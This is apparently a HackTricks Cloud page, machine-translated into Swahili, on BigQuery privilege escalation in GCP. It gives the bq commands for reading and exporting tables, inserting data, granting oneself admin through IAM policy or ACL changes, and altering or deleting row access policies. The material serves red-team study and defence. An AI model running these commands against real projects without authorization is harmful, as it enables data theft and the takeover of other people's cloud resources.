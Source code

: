 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

Kwa maelezo zaidi kuhusu BigQuery angalia:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Kusoma taarifa zilizohifadhiwa ndani ya meza ya BigQuery inaweza kuwa inawezekana kupata **taarifa nyeti**. Ili kufikia taarifa hizo ruhusa inayohitajika ni **`bigquery.tables.get`**, **`bigquery.jobs.create`** na **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Export data

Hii ni njia nyingine ya kufikia data. **Ihamashe kwenye chombo cha kuhifadhi wingu** na **pakua faili** zenye taarifa.\
Ili kutekeleza hatua hii, ruhusa zifuatazo zinahitajika: **`bigquery.tables.export`**, **`bigquery.jobs.create`** na **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

Inaweza kuwa inawezekana **kuingiza data fulani za kuaminika** katika jedwali la Bigquery ili kutumia **udhaifu mahali pengine.** Hii inaweza kufanywa kwa urahisi na ruhusa **`bigquery.tables.get`**, **`bigquery.tables.updateData`** na **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Mshambuliaji anaweza kutumia ruhusa hii **kujipe ruhusa zaidi** juu ya dataset ya BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Ruhusa hii pekee inaruhusu **kusaidia upya ufikiaji wako juu ya dataset ya BigQuery kwa kubadilisha ACLs** zinazoonyesha nani anaweza kuipata:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Mshambuliaji anaweza kutumia ruhusa hii **kujipe ruhusa zaidi** juu ya meza ya BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Kulingana na nyaraka, kwa ruhusa zilizotajwa inawezekana **kusaidia sera ya safu.**\
Hata hivyo, **ukitumia cli `bq`** unahitaji zaidi: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Ni rahisi kupata kitambulisho cha chujio katika matokeo ya kuhesabu sera za safu. Mfano:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Ikiwa una **`bigquery.rowAccessPolicies.delete`** badala ya `bigquery.rowAccessPolicies.update` unaweza pia kufuta sera hiyo:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Chaguo kingine kinachoweza kupita sera za ufikiaji wa safu ni kubadilisha tu thamani ya data iliyozuiliwa. Ikiwa unaweza kuona tu wakati `term` ni `Cfba`, badilisha rekodi zote za jedwali kuwa na `term = "Cfba"`. Hata hivyo, hii inazuia na bigquery.
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
